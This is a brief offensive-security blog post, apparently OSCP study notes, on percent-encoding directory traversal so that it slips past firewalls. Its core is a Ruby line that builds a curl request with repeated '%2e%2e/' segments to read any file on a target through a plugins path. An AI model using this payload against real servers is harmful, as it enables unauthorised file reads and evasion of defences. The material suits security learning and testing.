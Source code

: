 ```yaml
---
layout: post
title: Directory Traversal Percent Encoding
titledate: 08/28/23
tags: ["infosec","offsec", "web", "dir_traversal", "http"]
---
```


It may be necessary to % encode the path traversal in the URI request in order to bypass firewalls 

I edited my useless [script](https://github.com/ST4RGUARD/OSCP/blob/master/dir_traversal/plugin_pwn.rb) to illustrate this point 

```ruby
cmd = "curl http://#{ARGV[0]}/public/plugins/#{line}/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/#{ARGV[1]}"
```
